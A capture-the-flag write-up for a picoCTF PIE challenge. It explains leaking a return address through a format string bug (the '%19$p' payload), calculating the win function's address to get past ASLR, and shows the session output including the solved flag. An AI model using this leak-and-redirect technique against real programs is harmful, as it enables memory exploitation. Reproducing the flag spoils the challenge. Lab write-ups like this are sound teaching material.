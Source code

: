 # Description

Can you try to get the flag? I'm not revealing anything anymore!!Connect to the program with netcat:

```sh
$ nc rescued-float.picoctf.net 51030
```

The program's source code can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/0ee50c4c94b334e2007d91218ac385470257261765b09a6620226865a05bf468/vuln.c). The binary can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/0ee50c4c94b334e2007d91218ac385470257261765b09a6620226865a05bf468/vuln).

# Solution

This is an advanced variant of the first PIE Time challenge, on this one we need a leak in order to properly bypass ASLR.

Checking the binary we noticed that on the function **call_functions** we find a string format vulnerability, this allows us to leak pointers directly from memory (hopefully).

![Pasted image 20250307123123.png](./attachments/Pasted%20image%2020250307123123.png)

While debugging the binary and testing for results on different positions, we noticed that we get the return address leaked in position 19, this pointer matches the offset for main at offset 0x1441.

![Pasted image 20250330185220.png](./attachments/Pasted%20image%2020250330185220.png)

Armed with this information we can calculate the offset for the win function.

```
[+] Opening connection to rescued-float.picoctf.net on port 58146: Done
Enter your name: %19$p
0x5e167f006441

enter the address to jump to, ex => 0x12345: 0x5e167f00636a
You won!

picoCTF{p13_5h0u1dn'7_134k}
````

For a great introduction on format string vulnerabilities please check the [CS6265](https://tc.gts3.org/cs6265/2019/tut/tut05-fmtstr.html) infosec lab from Georgia Tech.
